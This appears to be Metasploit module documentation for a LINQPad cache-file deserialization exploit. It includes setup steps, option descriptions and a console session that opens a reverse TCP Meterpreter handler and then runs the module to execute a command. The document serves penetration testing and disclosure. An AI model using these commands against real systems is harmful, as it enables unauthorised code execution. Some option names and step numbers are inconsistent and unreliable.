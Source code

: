 ## LINQPad 5.48 Deserialization

LINQPad is a scratchpad for .NET programming. Versions prior to 5.52 contain a deserialization vulnerability in processing cache file when program is starting. Application can be downloaded from [here](https://www.linqpad.net/).

## Verification Steps
Steps:

1. Install the application
2. Start msfconsole
3. Get Meterpreter/cmd shell
4. Run: `use windows/local/linqpad_deserialization`
5. Set payload - for example `set payload cmd/windows/generic` - and corresponding parameters
5. Set parameters `session`, `cache_path`, `linqpad_path`, `cleanup`
6. Run exploit

## Options

### cleanup

Enable cleanup of malicious file. The module will replace cache filewith malicious content. If `cleanup` is enabled, after successful execution, the module will remove malicious cache file. The original file will be restored upon re-execution of Linqpad.


### cache\_path

The parameter sets path for folder, where vulnerable cache file is present. This is crucial part of the exploit as the folder can be used to identify whether the current version is vulnerable and the payload delivery is performed through cache file. 

### linqpad\_path

Final part of exploit runs the LINQPad to trigger deserialization procedure. The `linpad_path` parameter sets the path to LINQPad binary, which is ran at the end of exploit.

Example:

```
msf > use exploit/multi/handler
msf exploit(multi/handler) > set LHOST 192.168.95.128
msf exploit(multi/handler) > set LPORT 4242
msf exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.95.128:4242 
[*] Meterpreter session 1 opened (192.168.95.128:4242 -> 192.168.95.130:53430) at 2024-12-30 12:46:16 +0100

meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use windows/local/linqpad_deserialization
msf exploit(windows/local/linqpad_deserialization) > set LINQPAD_FILE C:/ProgramData/LINQPad/Updates50.AnyCPU/552/LINQPad.exe
msf exploit(windows/local/linqpad_deserialization) > set payload windows/exec/cmd
msf exploit(windows/local/linqpad_deserialization) > set cache_path C:/Users/ms/AppData/Local/LINQPad
msf exploit(windows/local/linqpad_deserialization) > set CMD calc.exe
msf exploit(windows/local/linqpad_deserialization) > set session 1
msf exploit(windows/local/linqpad_deserialization) > exploit
[*] Exploit completed, but no session was created.
```

Previous example will run `calc.exe` when LINQPad will start.

